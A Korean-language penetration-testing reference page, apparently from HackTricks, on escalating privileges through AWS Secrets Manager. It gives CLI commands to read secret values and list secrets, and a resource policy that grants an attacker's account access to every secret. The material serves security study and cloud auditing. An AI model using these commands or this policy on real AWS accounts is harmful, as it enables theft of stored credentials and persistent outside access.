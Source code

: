 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Secrets manager에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

이 권한을 가진 공격자는 AWS **Secretsmanager**에서 **비밀 내부에 저장된 값**을 가져올 수 있습니다.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**잠재적 영향:** AWS Secrets Manager 서비스 내의 고감도 데이터에 접근할 수 있습니다.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

이전 권한을 통해 **다른 주체/계정(외부 포함)** 에게 **비밀**에 접근할 수 있는 권한을 **부여할 수 있습니다**. KMS 키로 암호화된 **비밀**을 **읽기 위해서는** 사용자가 **KMS 키에 대한 접근 권한**도 필요하다는 점에 유의하십시오 (자세한 내용은 [KMS Enum 페이지](../aws-services/aws-kms-enum.md)에서 확인할 수 있습니다).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}

